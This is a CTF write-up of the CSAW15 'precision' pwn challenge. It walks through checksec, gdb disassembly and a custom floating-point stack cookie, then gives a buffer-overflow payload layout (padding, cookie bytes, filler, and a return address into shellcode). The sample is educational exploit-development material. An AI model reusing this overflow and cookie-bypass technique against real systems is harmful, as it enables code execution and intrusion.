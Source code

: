 ```yaml
---
layout: post
title: CSAW15 PWN 100
tags: [ctf, pwn, write-up]
---
```


### Challenge: [precision](../ctfs/csaw15/pwn/precision-100/precision_a8f6f0590c177948fe06c76a1831e650)

### Reversing
I start by doing a quick *file* and *checksec*
```bash
$ file ./precision
precision: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=929fc6f283d6f6c3c039ee19bc846e927103ebcd, not stripped
$ checksec ./precision
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
I can see from the results of *checksec* that this 32-bit binary doesnt have any protections enabled. I run it once to see whats the binary doing.
```bash
$ ./precision
Buff: 0xffb40f28
AAAA
Got AAAA
```
When running the binary, it prints address of a buffer then it takes input. After sending input "AAAA\n", input gets printed back on the console and process terminates.
Considering we are dealing with a string echo here. I tried providing "%x\n" in the input.
```bash
$ ./precision
Buff: 0xffb40f28
%x
Got %x
```
So no format string vulnerability here. Then for the last black box test I provided a large string as input.
```bash
$ python -c 'print "A"*2000' | ./precision
Buff: 0xffa02b18
Nope
```
It didnt work either. Time to start real reversing.
Now opening binary in IDA makes it a little too easy so I will do it with gdb-peda *pdisass* to make it interesting.
```bash
gdb-peda$ pdisass main
Dump of assembler code for function main:
   0x0804851d <+0>:	push   ebp
   0x0804851e <+1>:	mov    ebp,esp
   0x08048520 <+3>:	and    esp,0xfffffff0
   0x08048523 <+6>:	sub    esp,0xa0
   0x08048529 <+12>:	fld    QWORD PTR ds:0x8048690
   0x0804852f <+18>:	fstp   QWORD PTR [esp+0x98] # cookie
   0x08048536 <+25>:	mov    eax,ds:0x804a040
   0x0804853b <+30>:	mov    DWORD PTR [esp+0xc],0x0
   0x08048543 <+38>:	mov    DWORD PTR [esp+0x8],0x2
   0x0804854b <+46>:	mov    DWORD PTR [esp+0x4],0x0
   0x08048553 <+54>:	mov    DWORD PTR [esp],eax
   0x08048556 <+57>:	call   0x8048400 <setvbuf@plt>
   0x0804855b <+62>:	lea    eax,[esp+0x18] # Buff
   0x0804855f <+66>:	mov    DWORD PTR [esp+0x4],eax
   0x08048563 <+70>:	mov    DWORD PTR [esp],0x8048678
   0x0804856a <+77>:	call   0x80483b0 <printf@plt>
   0x0804856f <+82>:	lea    eax,[esp+0x18]
   0x08048573 <+86>:	mov    DWORD PTR [esp+0x4],eax
   0x08048577 <+90>:	mov    DWORD PTR [esp],0x8048682
   0x0804857e <+97>:	call   0x8048410 <__isoc99_scanf@plt>
   0x08048583 <+102>:	fld    QWORD PTR [esp+0x98]
   0x0804858a <+109>:	fld    QWORD PTR ds:0x8048690
   0x08048590 <+115>:	fucomip st,st(1)
   0x08048592 <+117>:	fstp   st(0)
   0x08048594 <+119>:	jp     0x80485a9 <main+140>
   0x08048596 <+121>:	fld    QWORD PTR [esp+0x98]
   0x0804859d <+128>:	fld    QWORD PTR ds:0x8048690
   0x080485a3 <+134>:	fucomip st,st(1)
   0x080485a5 <+136>:	fstp   st(0)
   0x080485a7 <+138>:	je     0x80485c1 <main+164>
   0x080485a9 <+140>:	mov    DWORD PTR [esp],0x8048685
   0x080485b0 <+147>:	call   0x80483c0 <puts@plt>
   0x080485b5 <+152>:	mov    DWORD PTR [esp],0x1
   0x080485bc <+159>:	call   0x80483e0 <exit@plt>
   0x080485c1 <+164>:	mov    eax,ds:0x804a030
   0x080485c6 <+169>:	lea    edx,[esp+0x18]
   0x080485ca <+173>:	mov    DWORD PTR [esp+0x4],edx
   0x080485ce <+177>:	mov    DWORD PTR [esp],eax
   0x080485d1 <+180>:	call   0x80483b0 <printf@plt>
   0x080485d6 <+185>:	leave  
   0x080485d7 <+186>:	ret    
End of assembler dump.
gdb-peda$ 
```
After the function prologue I can see some interesting instructions (fld, fstp). These instructions are used for handling floating point values. In a summary we can say that it takes a floating point value from ds:0x8048690 and puts it in a local variable ([esp+0x98]). After this *stdout* is cleared from a typical *setvbuf* call. "Buff: 0xXXXXXXXX" gets printed on the console and **__isoc99_scanf** starts waiting for the input. Then it compares the value in local variable ([esp+0x98]) to ds:0x8048690 and it both values are not same it prints "Nope" and exits. But if the values are the same then it prints "Got <string_input>" and main returns. So clearly this custom logic is placed to have a check for buffer overflow vulnerable **__isoc99_scanf** function.

### Exploitation
To exploit buffer overflow in **__isoc99_scanf**, I first have to bypass custom stack cookie logic in place. For this I can just look up the 8 bytes (floating point values are represented by 8 bytes in memory) value on ds:0x8048690 and while overflowing the local variable (stack cookie) provide the same value.
```bash
gdb-peda$ x/gx 0x8048690
0x8048690:	0x40501555475a31a5
```
Now we can craft our simple stack based overflow payload. Offset between our Buff and cookie local variable is 0x80.

`"A"*0x80 + "\xa5\x31\x5a\x47" + "\x55\x15\x50\x40"`
I can add cyclic pattern from *gdb-peda* in above payload to determine offset to return address on stack, that is 12 here.
`"A"*0x80 + "\xa5\x31\x5a\x47" + "\x55\x15\x50\x40" + "B"*12 + "XXXX"`
Here I can replace return address "XXXX" to address of our input buffer (Buff) provided when running the binary. And start of the payload buffer have be converted into a shellcode that will give us a shell.
This pwntools [script](../ctfs/csaw15/pwn/precision-100/sploit.py) will be doing all thing automated for us.
